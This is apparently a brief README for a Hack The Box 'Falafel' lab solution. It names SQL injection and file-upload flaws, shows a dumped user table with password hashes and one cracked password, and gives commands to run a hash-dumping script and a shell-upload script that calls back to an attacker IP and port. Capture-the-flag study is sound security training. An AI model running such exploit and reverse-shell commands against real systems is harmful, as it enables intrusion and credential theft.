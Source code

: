 # Falafel
[Falafel Machine](https://www.hackthebox.com/machines/falafel)

Identified Vulnerability:
- Boolean Based SQL Injection
- Unrestricted File Upload (Truncated file name)

Database Table
| ID | role   | password                                    | username |
|----|--------|---------------------------------------------|----------|
| 1  | admin  | 0e462096931906507119562988736854            | admin    |
| 2  | normal | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) | chris    |


```
python3 dump.py -u admin -id 1
```
```
python3 upshell.py -t falafel.htb -ip 10.10.14.9 -p 5555
```